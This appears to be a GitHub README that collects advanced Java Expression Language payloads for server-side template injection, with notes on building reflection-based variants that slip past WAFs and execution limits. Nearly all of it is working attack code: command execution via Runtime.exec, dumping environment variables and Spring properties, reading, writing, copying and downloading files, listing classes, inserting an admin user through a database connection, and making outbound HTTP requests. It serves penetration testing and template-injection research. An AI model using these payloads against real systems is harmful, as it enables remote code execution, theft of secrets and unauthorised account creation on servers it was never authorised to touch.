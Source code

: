 # Java-EL-SSTI-Advanced
Advanced Expression Language payloads for Java based SSTI's

## Whats it about:
For some cases, regular SSTI EL payloads are not suitable, because of something like WAF, prohibition of file execution and etc, so u may not able to shot regular payloads such as:
```java
T(java.lang.Runtime).getRuntime().exec('calc')
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()
```
(for more see on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#expression-language-el) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java))

You probably need to start think in another way and try gather and do as much as possible... 
So, this repository was born from payloads developed during a regular web application pentest and several others written out of boredom, feel free to push more!

### Notes about custom payloads writing:
1) If you able to use *T(...).method()* - use it
2) If not - you need to invoke this method by finding it using
```java
"".getClass().forName("**package_name_where_method_is_present**").getMethod('methodName',arg1_class,arg2_class, ...)
```
3) It's better to get the method using the method described above, but its also possible to use:
```java
"".getClass().forName("**package_name_where_method_is_present**").getMethods()[number_of_you_method]
```
4) If method is static, first arg for .invoke will be null (or "")
5) You can find necessery class for method using `"".getClass().forName("arg1_class")`, examples:
``` java
"".getClass().forName("java.net.URI") // for java.net.URI
"".getClass() // for java.net.String
"".getClass().forName("[B") // for array of java.net.Byte
```
also check [Documentation](https://docs.oracle.com/javase/tutorial/reflect/class/classNew.html)

6) pay attention to single and double quotes and change if necessary


## Environment and properties
```Java
T(java.lang.System).getenv().toString()
T(java.lang.System).getProperties().toString()
```
## Spring properties
```Java
T(org.springframework.core.io.support.PropertiesLoaderUtils).loadAllProperties("application.properties").toString()

"".getClass().forName("org.springframework.core.io.support.PropertiesLoaderUtils").getMethod("loadAllProperties","".getClass()).invoke("","application.properties").toString()
```

## Reading command output (bytes)
```java
T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream().readAllBytes()
```
## Reading command output (strings)
```java
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance("".class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("whoami").getInputStream().readAllBytes())
new java.lang.String("".class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("whoami").getInputStream().readAllBytes())
```

## Get current path
```java
(new java.io.File("./")).getAbsolutePath()
("".getClass().forName("java.io.File").getConstructor("".getClass())).newInstance("./").getAbsolutePath()
```

## Listing files
```java
"".getClass().forName("java.io.File").getConstructor("".getClass()).newInstance("C:/Windows").listFiles()
```

### Notes about files
**java.net.URI** for working with files on linux is **file:///**etc/passwd 

## Download files
```java
T(java.nio.file.Files).copy(new java.net.URL("http://127.0.0.1:8888/test.txt").openStream(),"".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke(null,"C:/Windows/Temp/test3.txt",new String[]{}))
```

## Read Files (Strings)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

// java.nio.file.Files.readdAllLines(java.net.URI)
T(java.nio.file.Files).readAllLines("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

//java.lang.String( (java.net.URL).openStream().readAllByte() )
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance(new java.net.URL("file:/C:/windows/System32/drivers/etc/hosts").openStream().readAllBytes())
new java.lang.String(new java.net.URL("file:/C:/windows/System32/drivers/etc/hosts").openStream().readAllBytes())

```
## Read Files (Bytes)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

T(java.nio.file.Files).readAllBytes("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

```

## Write Files (Strings)
```java
// not at uri "file:/" prefix
// change "hello" to your file content
"".getClass().forName("java.nio.file.Files").getMethod("write","".getClass().forName("java.nio.file.Path"),"".getClass().forName("[B"),"".getClass().forName("[Ljava.nio.file.OpenOption;")).invoke("","".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

```

## Copy Files
```java
T(java.nio.file.Files).copy("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe.txt")), "".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe_copy.txt")), new java.nio.file.CopyOption[] {"".getClass().forName("java.nio.file.StandardCopyOption").getField("REPLACE_EXISTING").get(null)})
```

## List packages
```java
T(java.util.Arrays).toString("".getClass().forName("java.lang.Package").getMethod("getPackages").invoke(""))

"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("","".getClass().forName("java.lang.Package").getMethod("getPackages").invoke("")).toString()
```

## List classes/files of package
```java
// replace org/myapplication to your /org/custom/package
"".getClass().forName("java.io.File").getConstructor("".getClass().forName("java.lang.String")).newInstance("".getClass().forName("java.lang.Thread").currentThread().getContextClassLoader().getResource("org/myapplication").getFile()).listFiles()
```

## List properties of custom class
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString", "".getClass().forName("[Ljava.lang.Object;")).invoke(null, new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredFields()}).toString()
```

## List all class methods
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("",new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredMethods()})
```

## Data Base - Insert
```java
//NOTE: you need to URL encode '&' in db connection string, result will be 500, thats ok 
T(java.sql.DriverManager).getConnection('jdbc:postgresql://127.0.0.1:5432/test?user=postgres%26password=mysecretpassword').createStatement().executeQuery("INSERT INTO users (name, surname, login, email, password) VALUES ('Admin', 'Admin', 'Admin', 'admin@example.com', 'P@ssw0rd123');")

"".getClass().forName("java.sql.DriverManager").getMethod("getConnection","".getClass()).invoke(null,"jdbc:postgresql://127.0.0.1:5432/test?user=postgres%26password=mysecretpassword").createStatement().executeQuery("INSERT INTO users (name, surname, login, email, password) VALUES ('Admin', 'Admin', 'Admin', 'admin@example.com', 'P@ssw0rd123');")
```

## HTTP Request - GET with response
```java
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance(new java.net.URL("http://google.com").openStream().readAllBytes())
```

